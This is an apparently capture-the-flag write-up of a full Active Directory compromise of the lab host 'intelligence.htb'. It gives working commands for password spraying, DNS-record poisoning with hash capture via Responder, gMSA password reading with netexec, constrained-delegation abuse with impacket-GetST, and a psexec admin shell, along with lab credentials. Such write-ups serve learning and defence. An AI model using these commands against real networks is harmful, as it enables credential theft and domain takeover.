 Started with a nmap scan
```
53 DNS
80 IIS 10.0
88 Kerberos
135
139
389 LDAP
445
636
3268
3269
```
Domain `intelligence.htb` Hostname `DC` 
Looking at the website there is a `/documents` folder with some PDF files in it all have a common naming schema we can download them and use exiftool to get possible usernames and we find one file `2020-06-04-upload.pdf` has a password in it and running this password aginst all the users names we got we found one account with the defult creds `Tiffany.molina:NewIntelligenceCorpUsers9876` and this has access to some SMB shares `IT,Users` in the `IT` share there is a ps1 script to check the webserver aginst downdetector now we check out the USERS share we found the user flag now going back to that script we can add are ip to the dns with `dnstool.py` and then get a hash back `python dnstool.py -u 'intelligence\Tiffany.Molina' -p 'NewIntelligenceCorpUsers9876' --action add --record 'web-exploit' -d 10.10.16.4 10.10.10.248` and then we can run responder and we wait 5 mins and we get a hash back `sudo responder -I tun0` and we can use hashcat to crack the hash and we got the creds to the ted user `ted.graves:Mr.Teddy` now we can get are bloodhound data with rusthound and looking at it  ted has writes over the `svc_int$` user to read gmsa passwords and we can use netexec to get this easily `nxc ldap 10.10.10.248 -u TED.Graves -p 'Mr.Teddy' --gmsa` and this `svc_int$` can `ALLowedToDelegate` we can use the impacket-Getst script `impacket-GetST -spn 'WWW/dc.intelligence.htb' -impersonate administrator -altservice 'cifs' -hashes :hash 'intelligence.htb/svc_int$'` now we got are ticket we need to auth  `KRB5CCNAME=ticket.ccname impacket-psexec 'intelligence/administrator@dc.intelligence.htb' -k -no-pass` and now we are admin user 